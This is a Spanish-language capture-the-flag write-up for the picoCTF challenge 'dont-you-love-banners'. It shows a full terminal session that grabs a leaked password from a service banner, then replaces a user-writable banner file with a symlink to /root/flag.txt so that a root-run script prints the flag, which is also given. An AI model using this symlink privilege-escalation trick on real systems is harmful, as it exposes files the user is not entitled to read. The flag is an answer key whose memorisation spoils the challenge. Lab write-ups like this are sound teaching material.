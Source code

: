 # dont-you-love-banners

#### Description

Can you abuse the banner? The server has been leaking some crucial information on `tethys.picoctf.net 51160`. Use the leaked information to get to the server. To connect to the running application use `nc tethys.picoctf.net 50616`. From the above information abuse the machine and find the flag in the /root directory.
## Hints 1 2

* Do you know about symlinks?
* Maybe some small password cracking or guessing

## Solución

Primero iniciamos nuestra instancia, una vez echo esto, nos dirigimos a nuestra terminal de ubuntu o el webshell de PicoCTF, e ingresamos el **primer `tethyns`** el cual es el: `tethys.picoctf.net 51160` y nos da nuestra contraseña que utilizaremos para la segunda `tethyns` y después damos `crt c`, enseguida ponemos el **segundo `nc tethyns`** en este caso es el: `nc tethys.picoctf.net 50616` y ponemos la contraseña que anteriormente nos dieron el cual es: 
`My_Passw@rd_@1234` y con esto estaremos dentro.

Una vez ahí ingresamos `ls -al` para ver los archivos que contiene.

Después ingresamos los siguientes comandos:
* cat text
* ls -al /root
* cat /root
* cat /root/script.py
* rm /home/player/banner
* ln -s /root/flag.txt /home/player/banner ln -s /root/flag.txt /home/player/banner

Cuando se terminen de ingresar los comandos en orden, damos un `crt C`.

Y por ultimo ingresamos este ultimo comando, que es nuestro : 
* `nc tethys.picoctf.net 50616`
El cual nos mostrara nuestra respectiva flag.

## Terminal de ejemplo

```
jazmin@DESKTOP-1CBQJ6D:~$ nc tethys.picoctf.net 51160
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
^C
jazmin@DESKTOP-1CBQJ6D:~$ nc tethys.picoctf.net 50616
*************************************
**************WELCOME****************
*************************************

what is the password?
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$ ls -al
ls -al
total 20
drwxr-xr-x 1 player player   20 Mar  9  2024 .
drwxr-xr-x 1 root   root     20 Mar  9  2024 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
-rw-r--r-- 1 player player  114 Feb  7  2024 banner
-rw-r--r-- 1 root   root     13 Feb  7  2024 text
player@challenge:~$ cat banner
cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cat text
cat text
keep digging
player@challenge:~$ ls -al /root
ls -al /root
total 16
drwxr-xr-x 1 root root    6 Mar 12  2024 .
drwxr-xr-x 1 root root   29 Apr  9 02:58 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar 12  2024 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7  2024 script.py
player@challenge:~$ cat /root
cat /root
cat: /root: Is a directory
player@challenge:~$ cat /root/script.py
cat /root/script.py

import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt

player@challenge:~$ rm /home/player/banner
rm /home/player/banner
player@challenge:~$ ln -s /root/flag.txt /home/player/banner
ln -s /root/flag.txt /home/player/banner
player@challenge:~$ ^C
jazmin@DESKTOP-1CBQJ6D:~$ nc tethys.picoctf.net 50616
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_f7608541}

what is the password?
```

### Respuesta: picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_f7608541}